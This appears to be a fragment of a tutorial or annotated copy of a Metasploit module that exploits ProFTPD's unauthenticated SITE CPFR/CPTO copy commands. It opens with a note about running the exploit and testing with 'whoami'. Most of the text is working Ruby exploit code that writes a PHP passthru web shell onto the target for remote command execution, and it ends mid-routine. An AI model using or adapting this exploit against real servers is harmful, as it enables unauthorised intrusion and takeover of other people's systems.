 ```run``` to start exploit, after inside, i test with commands whoami and touch testi3.txt
    if res.nil?
      return CheckCode::Unknown("#{rhost}:#{ftp_port} - Failed to connect to FTP server")
    end

    if res.include?("500 'SITE CPFR' not understood")
      return CheckCode::Safe("#{rhost}:#{ftp_port} - SITE CPFR command not supported")
    end

    if res.include?('530')
      return CheckCode::Safe("#{rhost}:#{ftp_port} - SITE CPFR command requires authentication.")
    end

    if res.include?('350')
      return CheckCode::Appears("#{rhost}:#{ftp_port} - Unauthenticated SITE CPFR command was successful")
    end

    CheckCode::Safe
  ensure
    sock.close unless sock.nil?
  end

+# this is the exploit part
  def exploit
    get_arg = rand_text_alphanumeric(5..7)  # gen random get param name
    payload_name = rand_text_alphanumeric(5..7) + '.php' # generate random php file for payload

+    # connect to server ftp
    sock = Rex::Socket.create_tcp('PeerHost' => rhost, 'PeerPort' => ftp_port)

    if sock.nil?
      fail_with(Failure::Unreachable, "#{rhost}:#{ftp_port} - Failed to connect to FTP server")
    end

    print_status("#{rhost}:#{ftp_port} - Connected to FTP server")

    # Set 30 second timeout to allow remote server time to perform reverse DNS lookup
    res = sock.get_once(-1, 30)
    unless res && res.include?('220')
      fail_with(Failure::Unknown, "#{rhost}:#{ftp_port} - Failure retrieving ProFTPD 220 OK banner")
    end

    print_status("#{rhost}:#{ftp_port} - Sending copy commands to FTP server")

+    # copying php to targetr
    sock.puts("SITE CPFR /proc/self/cmdline\r\n")
    res = sock.get_once(-1, 10)
    unless res && res.include?('350')
      fail_with(Failure::Unknown, "#{rhost}:#{ftp_port} - Failure copying from /proc/self/cmdline")
    end

+    # writing payload php file to temp file
    sock.put("SITE CPTO #{datastore['TMPPATH']}/.<?php passthru($_GET[\'#{get_arg}\']);?>\r\n")
    res = sock.get_once(-1, 10)
    unless res && res.include?('250')
      fail_with(Failure::Unknown, "#{rhost}:#{ftp_port} - Failure copying to temporary payload file")
    end

+    # copy payload to SITEPATH
    sock.put("SITE CPFR #{datastore['TMPPATH']}/.<?php passthru($_GET[\'#{get_arg}\']);?>\r\n")
    res = sock.get_once(-1, 10)
```